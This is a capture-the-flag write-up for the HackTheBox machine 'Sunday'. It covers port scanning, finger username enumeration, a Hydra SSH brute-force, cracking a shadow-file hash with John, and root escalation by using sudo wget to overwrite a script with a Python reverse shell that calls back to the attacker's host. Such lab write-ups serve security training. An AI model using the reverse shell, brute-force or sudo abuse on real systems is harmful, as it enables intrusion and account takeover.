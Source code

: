 # 


> medium-to-markdown@0.0.3 convert
> node index.js

HackTheBox Write-Up — Sunday
============================

![](https://miro.medium.com/max/1400/1*itSt35O3bwfON5arMvzFmA.png)

Sunday is no day off, it’s a great machine to practice common Linux privilege escalation methods through proper enumeration & vulnerability chaining.

```
**nmap -T4 -p- 10.10.10.76**Starting Nmap 7.70 ( [https://nmap.org](https://nmap.org) ) at 2020-08-28 11:42 EDT  
Warning: 10.10.10.76 giving up on port because retransmission cap hit (6).  
Nmap scan report for 10.10.10.76  
Host is up (0.013s latency).  
Not shown: 61654 closed ports, 3876 filtered ports  
PORT      STATE SERVICE  
**79/tcp    open  finger  
111/tcp   open  rpcbind  
22022/tcp open  unknown  
34550/tcp open  unknown  
55407/tcp open  unknown**Nmap done: 1 IP address (1 host up) scanned in 2262.52 seconds
```

There are five ports open, only one I am familiar with.

```
**nmap -T4 -A -p79,111,22022,34550,55407**Starting Nmap 7.70 ( [https://nmap.org](https://nmap.org) ) at 2020-08-28 16:36 EDT  
Nmap scan report for 10.10.10.76  
Host is up (0.025s latency).PORT      STATE SERVICE VERSION  
**79/tcp    open  finger  Sun Solaris fingerd**  
|\_finger: No one logged on\\x0D  
**111/tcp   open  rpcbind 2-4 (RPC #100000)  
22022/tcp open  ssh     SunSSH 1.3 (protocol 2.0)**  
| ssh-hostkey:   
|   1024 d2:e5:cb:bd:33:c7:01:31:0b:3c:63:d9:82:d9:f1:4e (DSA)  
|\_  1024 e4:2c:80:62:cf:15:17:79:ff:72:9d:df:8b:a6:c9:ac (RSA)  
**34550/tcp open  unknown  
55407/tcp open  unknown**  
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port  
Aggressive OS guesses: Sun OpenSolaris 2008.11 (94%), Sun Solaris 10 (94%), Sun Solaris 9 or 10, or OpenSolaris 2009.06 snv\_111b (94%), Sun Solaris 9 or 10 (SPARC) (92%), Sun Storage 7210 NAS device (92%), Sun Solaris 9 or 10 (92%), Oracle Solaris 11 (91%), Sun Solaris 8 (90%), Sun Solaris 9 (89%), Sun Solaris 8 (SPARC) (89%)  
No exact OS matches for host (test conditions non-ideal).  
Network Distance: 2 hops  
Service Info: OS: Solaris; CPE: cpe:/o:sun:sunosTRACEROUTE (using port 111/tcp)  
HOP RTT     ADDRESS  
1   9.40 ms 10.10.14.1  
2   9.55 ms 10.10.10.76OS and Service detection performed. Please report any incorrect results at [https://nmap.org/submit/](https://nmap.org/submit/) .  
Nmap done: 1 IP address (1 host up) scanned in 62.51 seconds
```

A few Google searches finds me a vulnerability involving “fingerd” towards username enumeration on Solaris systems.

![](https://miro.medium.com/max/1400/1*sqMZaDqu2y-lmsvQjH4dvg.png)[https://www.rapid7.com/db/vulnerabilities/finger-solaris-user-enumeration](https://www.rapid7.com/db/vulnerabilities/finger-solaris-user-enumeration)

Some more searching leads me to a Perl script we can use to enumerate usernames. We’ll download it using wget.

```
**wget** [**https://raw.githubusercontent.com/pentestmonkey/finger-user-enum/master/finger-user-enum.pl**](https://raw.githubusercontent.com/pentestmonkey/finger-user-enum/master/finger-user-enum.pl)
```![](https://miro.medium.com/max/1400/1*hEoObsS7-7XbUjCqzxIJGw.png)```
Usage: finger-user-enum.pl \[options\] ( -u username | -U file-of-usernames ) ( -t host | -T file-of-targets )Examples:\\$ finger-user-enum.pl -U users.txt -t 10.0.0.1  
\\$ finger-user-enum.pl -u root -t 10.0.0.1  
\\$ finger-user-enum.pl -U users.txt -T ips.txt
```

A quick “locate username” on my Kali machine pulls all the files containing the word username.

```
**locate username**
```

/usr/share/seclists/Usernames/xato-net-10-million-usernames.txt sounds good to me with an advertised “10 million!” usernames…

![](https://miro.medium.com/max/1400/1*YI_7axYe7GBrCuwpoNXmNA.png)![](https://miro.medium.com/max/1400/1*6Bd5LhU9s2Vp0iRo22hGjA.png)Quick preview

Using this file, our syntax in our working directory will be:

```
**perl finger-user-enum.pl -U /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt -t 10.10.10.76 > userenum.txt**
```

The scripts output will append the results to a file named userenum.txt. (You do not have to do this, I just don’t like to lose my results.)

![](https://miro.medium.com/max/1400/1*RF8e7LhDPeXw4YiD9kX80A.png)

The output is a bit messy, but we have a few usernames to attempt a brute-force attack against port \[**22022/tcp open ssh SunSSH 1.3 (protocol 2.0)\]**

The following usernames are the most interesting:

```
sammy@10.10.10.76: sammy console <Jul 31 17:59>  
sunny@10.10.10.76: sunny pts/3 <Apr 24, 2018>
```

Use the following syntax to brute-force:

```
**hydra -V -f -t 4 -l sunny -P /usr/share/wordlists/rockyou.txt 10.10.10.76 ssh -s 22022**
```![](https://miro.medium.com/max/1400/1*IVLkF60wYFaS2MiBDQwKSg.png)

We obtain the credentials for Sunny!

> sunny | sunday

```
**ssh -p 22022 sunny@10.10.10.76**
```![](https://miro.medium.com/max/1400/1*YYgqDCCDPJgJbTlYHgNRZA.png)

Habitually on Linux systems it’s always a good idea to check if a low-privileged user has any sudo permissions.

```
**sudo -l**
```

We find that we can run the command /root/troll as root without a password.

![](https://miro.medium.com/max/1400/1*-2T8yLglR_FzVT7p2iBe_g.png)

While traversing and enumerating the files on the machine, I found a copy of the shadow file containing hashed user passwords.

![](https://miro.medium.com/max/1400/1*f-FCv0hB0-jGhAX8lAZqaw.png)```
**cat /backup/shadow.backup**
```

If we are able to crack Sammy’s password hash, we’ll be able to grab the user.txt flag.

```
**echo "sammy:$5$Ebkn8jlK$i6SSPa0.u7Gd.0oJOT4T421N2OvsfXqAT1vCoYUOigB:6445::::::" > hash.txt**
```

Copy the hash to a file, I named mine hash.txt. We’ll use john to crack the hash.

```
**john -w="/usr/share/wordlists/rockyou hash.txt**
```![](https://miro.medium.com/max/1400/1*iDda9isUCBTW0boxxePOQA.png)

Success.

> Sammy | cooldude!

Let’s grab the user.txt found on the desktop, and enumerate the system using Sammy’s credentials.

```
**ssh -p 22022 sammy@10.10.10.76**
```![](https://miro.medium.com/max/1400/1*7ZK3ZmjNVjPW4MUt09NH1Q.png)

Habitually, we type sudo -l.

```
**sudo -l**
```![](https://miro.medium.com/max/1400/1*QcCX9NKNdrBdautztxNtHQ.png)

Looks like Sammy can run wget as root without a password. With this, we can overwrite /root/troll with a reverse-shell and then run it as root with Sunny’s user account.

Locally, copy and paste this Python reverse-shell to a file named reverse.py

```
#!/usr/bin/pythonimport socket  
import subprocess  
import oss=socket.socket(socket.AF\_INET,socket.SOCK\_STREAM)  
s.connect(("**10.10.14.15",443**))  
os.dup2(s.fileno(),0)  
os.dup2(s.fileno(),1)  
os.dup2(s.fileno(),2)  
p=subprocess.call(\["/bin/sh","-i"\]);
```

Host this file with an HTTP server using Python, but before you do — ensure to edit the parameters to your local IP/port to receive the shell (I like to use port 443.) **_note: // Later on I ran into trouble because my IP was wrong (see: 10.10.14.5 vs 10.10.14.15)_**

![](https://miro.medium.com/max/1400/1*Pn2GutPyPn-ZagP9adm00w.png)```
**python3 -m http.server 80**
```

Setup a listener on the designated port.

```
**nc -nlvp 443**
```![](https://miro.medium.com/max/1400/1*SAfBMYPVhdKGWeZBWrItjQ.png)

On the victim machine: we’re going to download the reverse shell to replace /root/troll (Sammy), and then run the reverse shell as root (Sunny). Hopefully… returning us with a reverse shell as a privileged user.

```
**sudo wget -O /root/troll** [**http://10.10.14.15/reverse.py**](http://10.10.14.15/reverse.py)
```![](https://miro.medium.com/max/1400/1*FoXOfkQUZdnfSzAeJXe7Vg.png)```
**sudo /root/troll**
```![](https://miro.medium.com/max/1400/1*4-vlM2cx8LbdzGwP5KMkOA.png)

Note: The file resets itself every 5 seconds, so you’re going to have to work fast. ( I also had a typo in my IP address, so this could be why I had so many failures)

![](https://miro.medium.com/max/1400/1*c0YHCrXNSdhWj_SWiNSA-w.png)

You will notice the port I am listening on had changed from 443 to 1234. I thought there was a firewall blocking port 443… but as I said above, I discovered a typo in my receiving IP address within the reverse-shell.

![](https://miro.medium.com/max/1400/1*LF9GEfw_dyRmE58N6B7tzA.png)

